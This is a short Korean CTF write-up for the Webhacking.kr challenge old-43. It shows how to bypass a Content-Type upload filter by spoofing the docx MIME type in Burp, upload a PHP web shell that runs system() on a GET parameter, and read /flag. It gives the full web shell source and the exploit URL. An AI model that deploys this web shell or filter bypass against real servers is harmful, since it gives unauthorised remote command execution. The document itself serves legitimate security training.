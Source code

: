 ```yaml
---
title: ["[Webhacking.kr] old-43 (file upload - 25)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, file upload]
---
```


webshell을 업로드해서 flag를 cat하라고 한다.  
심플한 webshell을 업로드해봤는데 `wrong type`이라는 응답이 온다.  

백엔드에 `Content-Type`을 필터링하는 로직이 있는 것 같다.  
여러 파일들을 업로드해보며 테스트해봤는데,  
docx 파일이 업로드가 되었다.  
```
Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.document
```

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```  
`webshell.php`를 업로드하고, burp로 잡아 `Content-Type`을 docx와 같이 수정해주니 성공적으로 업로드가 되었다.  

```
http://webhacking.kr:10004/upload/webshell.php?cmd=cat%20%2fflag
FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}
```
